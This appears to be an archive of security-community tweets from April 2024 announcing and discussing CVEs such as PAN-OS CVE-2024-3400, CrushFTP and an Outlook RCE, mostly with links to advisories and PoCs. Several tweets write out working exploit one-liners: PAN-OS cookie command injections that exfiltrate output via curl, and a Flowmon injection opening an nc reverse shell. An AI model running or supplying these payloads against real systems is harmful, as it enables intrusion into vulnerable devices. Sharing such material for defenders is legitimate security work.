



# grumpzsux
**https://twitter.com/grumpzsux/status/1785285494332354708 _at 2024-04-30, 12:30:05_**
<blockquote>
CVE-2024-25600: Unauth. RCE vulnerability caused by PHP code injection in Bricks Builder, a WordPress site builder with over 25,000+ active installations.

Severity: Critical (CVSS 9.8) 
Root cause analysis: https://t.co/KBUnXjnXHf 
PoC: https://t.co/2CX8VN17dF 

#hackers https://t.co/PrRPnvXk7z
</blockquote>

* https://buff.ly/44nVgtP
* https://buff.ly/44k1FGy

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>139</code></td>
</tr></table>

---

# _JohnHammond
**https://twitter.com/_JohnHammond/status/1783873752813420802 _at 2024-04-26, 15:00:20_**
<blockquote>
The CrushFTP vulnerability, CVE-2024-4040 -- demo of the file inclusion trick and some of the speculation on the sessions.obj usage to gain remote code execution (I recorded this mid-week before some of the other public analysis was out 😅)
https://t.co/ZIO26cz8ip https://t.co/824issyqEb
</blockquote>

* https://www.youtube.com/watch?v=etHDJWYElso

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>186</code></td>
</tr></table>

---

# Shadowserver
**https://twitter.com/Shadowserver/status/1783399676521168935 _at 2024-04-25, 07:36:31_**
<blockquote>
We are now sharing CrushFTP CVE-2024-4040 (CrushFTP VFS Sandbox Escape Vulnerability) vulnerable instances. At least 1400 vulnerable on 2024-04-24. CVE-2024-4040 is currently exploited in the wild &amp; on @CISACyber KEV.

Top affected: US, Germany, Canada

https://t.co/NucoywFO7Y https://t.co/CrNkHttv40
</blockquote>

* https://dashboard.shadowserver.org/statistics/combined/tree/?day=2024-04-24&source=http_vulnerable&source=http_vulnerable6&tag=cve-2024-4040%2B&geo=all&data_set=count&scale=log

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1783201177770852484 _at 2024-04-24, 18:27:45_**
<blockquote>
I get the impression that VPN endpoints are kind of important.
Attackers are exploiting Cisco ASA devices in the wild.
Cisco has fixed CVE-2024-20353 and CVE-2024-20359, but they have yet to discover the initial entry point vulnerability. 😬
https://t.co/pgwIRyVBuV https://t.co/zD4uPHHFpR
</blockquote>

* https://blog.talosintelligence.com/arcanedoor-new-espionage-focused-campaign-found-targeting-perimeter-network-devices/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>79</code></td>
<td>Favorites: <code>270</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1782680478341816557 _at 2024-04-23, 07:58:41_**
<blockquote>
CVE-2024-21111: Vulnerability in the Oracle VM VirtualBox product of Oracle Virtualization (component: Core). Local Privilege Escalation via Symbolic Link Following leading to Arbitrary File Delete and Arbitrary File Move.

PoC
https://t.co/sthDVj09GC https://t.co/XZ5MBlcgAA
</blockquote>

* https://github.com/mansk1es/CVE-2024-21111

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>98</code></td>
</tr></table>

---

# h1Disclosed
**https://twitter.com/h1Disclosed/status/1782514896296657022 _at 2024-04-22, 21:00:43_**
<blockquote>
⚡ CVE-2024-2398: HTTP/2 push headers memory-leak 
👨🏻‍💻 w0x42 ➟ Internet Bug Bounty 
🟧 Medium
💰 $2,580
🔗 https://t.co/heChqiIVgH
#bugbounty #bugbountytips #cybersecurity #infosec https://t.co/sahT67x7tu
</blockquote>

* https://hackerone.com/reports/2442613

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1782442803911426253 _at 2024-04-22, 16:14:15_**
<blockquote>
Microsoft has identified longstanding activity by the Russian-based threat actor we track as Forest Blizzard using a custom tool we call GooseEgg to exploit CVE-2022-38028 in the Windows Print Spooler service to elevate permissions and steal credentials: https://t.co/YKHvxqJa61
</blockquote>

* https://msft.it/6014YG3oI

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>165</code></td>
<td>Favorites: <code>348</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1781586105550135663 _at 2024-04-20, 07:30:02_**
<blockquote>
Excellent analysis of CVE-2024-0517, a vulnerability in Google Chrome’s V8 JavaScript engine 
Credits Javier Jimenez and Vignesh Rao (@XI_Research)

https://t.co/NwRnwpMQfR

#chrome #infosec https://t.co/3cEQWwqyFe
</blockquote>

* https://blog.exodusintel.com/2024/01/19/google-chrome-v8-cve-2024-0517-out-of-bounds-write-code-execution/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>287</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1780957694545002805 _at 2024-04-18, 13:52:57_**
<blockquote>
CVE-2024-21338:Windows Kernel Elevation of Privilege Vulnerability CVE-2024-21338 patch. The vulnerability occurs at certain IOCTL of “appid.sys”...

This exploit targets appid.sys driver and works for both Windows 10 &amp; 11 with HVCI enabled.

PoC

https://t.co/YuzKnCsS6i https://t.co/JFN2rYTE7t
</blockquote>

* https://github.com/Nero22k/Exploits/tree/main/Windows/CVE-2024-21338

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>106</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1780775859550662955 _at 2024-04-18, 01:50:24_**
<blockquote>
CVE-2024-3400 PAN-OS: OS Command Injection Vulnerability in GlobalProtect  Path Traversal -&gt; File Write -&gt; OS Command Injection  POC: curl https://host/global-protect/login.esp -k -H 'Cookie: SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/a`curl${IFS}uip/?u=$(whoami)`'
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---

# Netlas_io
**https://twitter.com/Netlas_io/status/1780559186939564071 _at 2024-04-17, 11:29:26_**
<blockquote>
CVE-2024-21006: Vulnerability in Oracle WebLogic Server, 7.5 rating❗️

Vulnerability from the report on the new Oracle patch. Allows an unauthenticated attacker to gain unauthorized access to critical activities. According to NVD, exploitation is quite simple.

Search at https://t.co/7leNWG1yn1
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1780518191929897042 _at 2024-04-17, 08:46:32_**
<blockquote>
PoC Exploit Released for 0-day Windows Kernel 
of Privilege Vulnerability (CVE-2024-21338) : https://t.co/vBcaCQ9MSi

https://t.co/vHofGL819e

Details : https://t.co/ngV9GWaYDU https://t.co/FP2Wf6WT7I
</blockquote>

* https://github.com/Nero22k/Exploits/tree/main/Windows/CVE-2024-21338Elevation
* https://github.com/hakaioffsec/CVE-2024-21338
* https://hakaisecurity.io/cve-2024-21338-from-admin-to-kernel-through-token-manipulation-and-windows-kernel-exploitation/research-blog/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>202</code></td>
<td>Favorites: <code>594</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1780390122145411188 _at 2024-04-17, 00:17:37_**
<blockquote>
Re CVE-2024-3400, please don't lock your detections to endpoint. I'm able to trigger the file write against /.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# Chirag99Artani
**https://twitter.com/Chirag99Artani/status/1780266892944670901 _at 2024-04-16, 16:07:57_**
<blockquote>
CVE-2024-3400 POC - Proof Of Concept. Tested.
echo "target" | httpx -x POST -path "/ssl-vpn/hipreport.esp" -H "Cookie: SESSID=/../../../opt/panlogs/tmp/device_telemetry/minute/hellothere`curl${IFS}YOURTOKEN`;"  -v -t 10 -mc 200 

Output from target. curl version -
#paloalto #poc https://t.co/6TmCtOrBvt
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>105</code></td>
<td>Favorites: <code>361</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1780125465816264800 _at 2024-04-16, 06:45:58_**
<blockquote>
🚨Alert🚨CVE-2024-3400: Zero-Day Exploitation of Unauthenticated Remote Code Execution Vulnerability in GlobalProtect(CVSS: 10)
⚠It enables an unauthenticated attacker to execute arbitrary code with root privileges on the firewall. 
📊 371K+ Services are found on https://t.co/bfEoQ53yiI
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>293</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1780000695829102781 _at 2024-04-15, 22:30:11_**
<blockquote>
Zero-Day Exploitation of Unauthenticated Remote Code Execution Vulnerability in GlobalProtect (CVE-2024-3400) https://t.co/4onCAmtXwJ   #Pentesting #CyberSecurity #Infosec https://t.co/R1MEvMf6ci
</blockquote>

* https://www.volexity.com/blog/2024/04/12/zero-day-exploitation-of-unauthenticated-remote-code-execution-vulnerability-in-globalprotect-cve-2024-3400/#RespondingToCompromise

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1779930136382689681 _at 2024-04-15, 17:49:48_**
<blockquote>
🚨 We're tracking new 0-day RCE CVE-2024-3400 in Palo Alto Networks PAN-OS 10.2-11.1 allowing unauthenticated root access in certain configs, check out the blog for more details. https://t.co/o9FV8HGah3
</blockquote>

* https://www.greynoise.io/blog/cve-2024-3400-command-injection-vulnerability-palo-alto-networks-pan-os

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>157</code></td>
</tr></table>

---

# win3zz
**https://twitter.com/win3zz/status/1779388643523842127 _at 2024-04-14, 05:58:06_**
<blockquote>
Auth. Bypass (CVE-2024-28255) and SpEL Injection (CVE-2024-28254) in OpenMetadata lead to a critical RCE (OOB Data Exfiltration).

Technical details &amp; PoC: https://t.co/zaBuKjY1RH
Mitigation: Update to Patched v1.2.4 or newer.
Credit for the original discovery goes to @pwntester https://t.co/QdACJ4wUre
</blockquote>

* https://securitylab.github.com/advisories/GHSL-2023-235_GHSL-2023-237_Open_Metadata/

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>212</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1779377441011565011 _at 2024-04-14, 05:13:35_**
<blockquote>
It’s Sunday 07:03 am and I decided to read @Volexity‘s article on UTA0218‘s post exploitation activity (PaloAlto CVE-2024-3400). 
I saw that a generic rule of mine detected the new UPSTYLE backdoor when it was uploaded to VT yesterday (while no one else had detections for it) and https://t.co/mXstwXmXtg
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>221</code></td>
</tr></table>

---

# win3zz
**https://twitter.com/win3zz/status/1779148811497267352 _at 2024-04-13, 14:05:06_**
<blockquote>
CVE-2024-3400: OS Command Injection Vulnerability in GlobalProtect Gateway

Severity: CRITICAL (10/10) ⚠️

Poc: https://t.co/IMw8YQap2q

Other info: 
https://t.co/VBttcYwwoJ
https://t.co/0YsIHHirTX https://t.co/wbG4eCbsW3
</blockquote>

* https://github.com/DrewskyDev/CVE-2024-3400
* https://unit42.paloaltonetworks.com/cve-2024-3400/
* https://www.volexity.com/blog/2024/04/12/zero-day-exploitation-of-unauthenticated-remote-code-execution-vulnerability-in-globalprotect-cve-2024-3400/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>125</code></td>
<td>Favorites: <code>553</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1779123299773010138 _at 2024-04-13, 12:23:43_**
<blockquote>
CVE-2024-3400 : Critical 0day Flaw in Palo Alto Networks Firewall Software Exploited in the Wild

Zero-Day Exploitation of Unauthenticated Remote Code Execution Vulnerability in GlobalProtect (CVE-2024-3400)

https://t.co/LrPMmh789n https://t.co/e8iDdik2iN
</blockquote>

* https://www.volexity.com/blog/2024/04/12/zero-day-exploitation-of-unauthenticated-remote-code-execution-vulnerability-in-globalprotect-cve-2024-3400/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---

# H4ckManac
**https://twitter.com/H4ckManac/status/1779082754879062302 _at 2024-04-13, 09:42:37_**
<blockquote>
#0Day Alert ⚠️

🔴 CVE-2024-3400: Command Injection Vulnerability in Palo Alto Networks PAN-OS. Severity: 10 🔴

A critical zero-day vulnerability (CVE-2024-3400) has been discovered in Palo Alto Networks PAN-OS that allows unauthenticated attackers to execute code on the https://t.co/VVYT56OOu1
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1778996658845724854 _at 2024-04-13, 04:00:30_**
<blockquote>
Zero-Day Exploitation of Unauthenticated Remote Code Execution Vulnerability in GlobalProtect (CVE-2024-3400)

172.233.228[.]93

https://t.co/a3Rf1zgIZT https://t.co/6sU71axOWT
</blockquote>

* https://www.volexity.com/blog/2024/04/12/zero-day-exploitation-of-unauthenticated-remote-code-execution-vulnerability-in-globalprotect-cve-2024-3400/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>150</code></td>
<td>Favorites: <code>433</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1778920968078975262 _at 2024-04-12, 22:59:44_**
<blockquote>
#UPSTYLE backdoor targeting GlobalProtect VPN devices via CVE-2024-3400 in 3 images/stages 🔥 #0day 
[+] https://t.co/DSdt5OldLo 

All technical details in the blogs of: 
+ Volexity (#UTA0218): https://t.co/jt7DVfsgCs
+ Unit 42 (Operation #MidnightEclipse): https://t.co/LsuN2WesJp
</blockquote>

* https://bazaar.abuse.ch/sample/3de2a4392b8715bad070b2ae12243f166ead37830f7c6d24e778985927f9caac/
* https://volexity.com/blog/2024/04/12/zero-day-exploitation-of-unauthenticated-remote-code-execution-vulnerability-in-globalprotect-cve-2024-3400/

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>124</code></td>
<td>Favorites: <code>320</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1778778881014583447 _at 2024-04-12, 13:35:08_**
<blockquote>
Your usual reminder that "let's run things as root because it's easier" is *not* limited only to discount routers you get from the big-box store.
Palo Alto CVE-2024-3400 https://t.co/HVzcGOQx7d https://t.co/EFDLGHuUjy
</blockquote>

* https://security.paloaltonetworks.com/CVE-2024-3400

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>272</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1778705893116227676 _at 2024-04-12, 08:45:06_**
<blockquote>
If you thought the D-Link "backdoor" (CVE-2024-3272, CVE-2024-3273) was new, please see this writeup from 2018. https://t.co/QE96NQG9VS
</blockquote>

* https://www.exploit-db.com/exploits/43434

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1778682036087099688 _at 2024-04-12, 07:10:18_**
<blockquote>
CVE-2024-21378: Microsoft Outlook Remote Code Execution Vulnerability

PoC
https://t.co/YYFI0v1dQP https://t.co/sqrj1cPBd4
</blockquote>

* https://gist.github.com/Homer28/7f3559ff993e2598d0ceefbaece1f97f

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>428</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1778617291200237893 _at 2024-04-12, 02:53:01_**
<blockquote>
🆕🆕🆕 Deep dive into the new RCE in Microsoft Outlook (CVE-2024-21378) from @ptswarm
⚠They've tested the new RCE in Microsoft Outlook (CVE-2024-21378) in a production environment and confirmed it works well! No back connect required!
A brief instruction for red teams:
1. https://t.co/ZPuHoKmfge
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>129</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1778421129193136338 _at 2024-04-11, 13:53:33_**
<blockquote>
🏭 We've tested the new RCE in Microsoft Outlook (CVE-2024-21378) in a production environment and confirm it works well!

A brief instruction for red teams:

1. Compile our enhanced DLL 👉 https://t.co/cQWF8KM8vL
2. Use NetSPI's ruler and wait!

No back connect required!

🔥 📐📏 https://t.co/aVDyT4d4B9
</blockquote>

* https://gist.github.com/Homer28/7f3559ff993e2598d0ceefbaece1f97f

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>125</code></td>
<td>Favorites: <code>338</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1777977522140950640 _at 2024-04-10, 08:30:49_**
<blockquote>
Progress Kemp Flowmon CVE-2024-2389:

curl -kv 'https://192.168.56.12/service.pdfs/confluence?lang=en&amp;file=`nc+-e+/bin/sh+192.168.56.1+4444`'
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# dudu_maragno
**https://twitter.com/dudu_maragno/status/1777832901326799010 _at 2024-04-09, 22:56:08_**
<blockquote>
LayerSlider CVE-2024-2879 SQLi Exploitation ;)
#hacking #exploit #0day https://t.co/okpP7TlYCI
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>140</code></td>
</tr></table>

---

# filip_dragovic
**https://twitter.com/filip_dragovic/status/1777788357973516568 _at 2024-04-09, 19:59:08_**
<blockquote>
I published my PoC for CVE-2023-36047 as MSRC fixed the bypass today tracked as CVE-2024-21447. With some modification can be ported for CVE-2024-21447.
https://t.co/c7QBlFnuW7
https://t.co/wnamFz9MJM
https://t.co/VOYmZmnSHJ
</blockquote>

* https://github.com/Wh04m1001/UserManagerEoP
* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-36047
* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21447

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>246</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1777417884421050809 _at 2024-04-08, 19:27:01_**
<blockquote>
⚠️  New Vuln: CVE-2024-3273 ⚠️ Active exploitation of a remote code execution vulnerability in D-Link NAS devices, affecting as many as 92,000 devices. Check out the blog for further details + check your router's UPnP configuration. https://t.co/8Wl6FGNtZB https://t.co/OstWe3B5yq
</blockquote>

* https://buff.ly/3U8YHB2

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# sensepost
**https://twitter.com/sensepost/status/1777292706483458262 _at 2024-04-08, 11:09:36_**
<blockquote>
In his next post, @PvdH describes how he found CVE-2024-26331 and CVE-2024-28269, an authentication bypass and RCE vulnerability in ReCrystallize Server.

https://t.co/7mVAWzdnnt https://t.co/N5E8G43zQR
</blockquote>

* https://sensepost.com/blog/2024/from-discovery-to-disclosure-recrystallize-server-vulnerabilities/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>68</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1776798677128130683 _at 2024-04-07, 02:26:30_**
<blockquote>
🚨Alert🚨CVE-2024-3116: Remote Code Execution (RCE) in pgAdmin version 8.4 or below.(CVSS: 7.4)
⚠This vulnerability allows attackers to execute malicious code on servers running pgAdmin, potentially compromising the entire database system.
📊 1K+ Services are found on https://t.co/4ViJhdnljj
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>205</code></td>
</tr></table>

---

# 0dayCTF
**https://twitter.com/0dayCTF/status/1776616816460050891 _at 2024-04-06, 14:23:51_**
<blockquote>
CVE-2024-1086 (Local Privilege Escalation) 
-
While the xz backdoor was all over the place, this incredible exploit seemed to "slip" by!
-
This is working on most Linux kernels from 5.14 to v6.6
-
Repo: https://t.co/C9wmPd7LuS
-
Creator: @notselwyn https://t.co/MUpTPau8Tz
</blockquote>

* https://github.com/Notselwyn/CVE-2024-1086

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>429</code></td>
<td>Favorites: <code>1595</code></td>
</tr></table>

---

# win3zz
**https://twitter.com/win3zz/status/1776122427619381683 _at 2024-04-05, 05:39:20_**
<blockquote>
CVE-2024-3116: Remote Code Execution (RCE) in pgAdmin version 8.4 or below.
Severity: HIGH
Mitigation: Upgrade

Proof of Concept: https://t.co/icV5Zag24e.
Patch Commit: https://t.co/xgmUqtSGcz
Advisory: https://t.co/uNfX0wwvQ7
Credit for the original discovery goes to @aessadek https://t.co/iUc946oHhn
</blockquote>

* https://gist.github.com/aelmokhtar/689a8be7e3bd535ec01992d8ec7b2b98
* https://github.com/pgadmin-org/pgadmin4/commit/fbbbfe22dd468bcfef1e1f833ec32289a6e56a8b
* https://nvd.nist.gov/vuln/detail/CVE-2024-3116

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1775380473516085297 _at 2024-04-03, 04:31:04_**
<blockquote>
CVE-2024-3159: Google Chrome Zero-Day Exploit Demonstrated at Pwn2Own https://t.co/Gb762oQ9pm
</blockquote>

* https://securityonline.info/cve-2024-3159-google-chrome-zero-day-exploit-demonstrated-at-pwn2own/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# HunterMapping
**https://twitter.com/HunterMapping/status/1774635992626167907 _at 2024-04-01, 03:12:46_**
<blockquote>
🚨Alert🚨CVE-2023-50969: Critical Flaw in Imperva SecureSphere WAF Could Lead to Devastating Breaches
⚠ By manipulating the “Content-Encoding” headers in HTTP requests and sending specifically encoded POST data, attackers can effectively slip malicious payloads past the WAF’s https://t.co/2jtWzBWEaf
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>80</code></td>
<td>Favorites: <code>242</code></td>
</tr></table>

---

